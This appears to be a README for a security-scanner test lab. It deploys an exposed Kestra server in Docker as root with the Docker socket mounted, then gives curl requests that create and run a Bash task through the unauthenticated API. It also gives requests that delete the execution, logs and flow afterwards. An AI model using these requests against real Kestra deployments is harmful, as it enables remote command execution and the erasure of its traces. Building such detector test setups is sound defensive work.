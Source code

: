 # Prerequisites
- Docker installed on your machine.
- port 8080 available on your host machine.

# Vulnerable setup
```bash
docker run --pull=always --rm -it -p 8080:8080 --user=root \
  -v /var/run/docker.sock:/var/run/docker.sock \
  -v /tmp:/tmp kestra/kestra:latest server local
```
## exploitation
1. replace `echo ""` with the command you want to run in the `bash` task.
```bash
# create a flow with a bash task
curl 'http://127.0.0.1:8080/api/v1/main/flows' \
-X POST \
-H 'Content-Type: application/x-yaml' \
--data-raw $'id: tsunami_security_scanner\nnamespace: company.team\n\ntasks:\n  - id: bash\n    type: "io.kestra.core.tasks.scripts.Bash"\n    commands:\n      - \'echo ""\'\n'

# execute the flow
curl 'http://127.0.0.1:8080/api/v1/main/executions/company.team/tsunami_security_scanner' -X POST 
# {"id":"7KOr7TfHgiVUOqmOG3Ng5f","namespace":"company.team",....

# id from the response is the execution id, you can use it to delete the execution and its logs.
curl 'http://127.0.0.1:8080/api/v1/main/executions/7OeXTbNMm3vwyHOjpHEPGh?deleteLogs=true&deleteMetrics=true&deleteStorage=true' -X DELETE 

# delete the flow
curl 'http://127.0.0.1:8080/api/v1/main/flows/delete/by-ids' \
  -X DELETE \
  -H 'Content-Type: application/json' \
  --data-raw $'[{"id":"tsunami_security_scanner","namespace":"company.team","enabled":true}]'

```